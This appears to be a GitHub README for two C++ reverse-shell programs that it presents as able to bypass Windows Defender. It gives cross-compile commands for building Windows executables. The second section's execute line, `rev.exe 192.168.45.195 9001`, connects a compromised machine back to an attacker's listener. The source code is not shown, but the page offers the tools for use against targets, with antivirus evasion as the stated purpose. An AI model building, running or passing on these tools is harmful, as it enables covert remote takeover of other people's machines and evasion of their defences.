 ## revshell.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.

*Note: The IP and PORT need to be specified statically in the file before compilation*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `.\rev.exe`

## revshell2.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.

*Note: The executable takes IP and PORT as arguments*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`
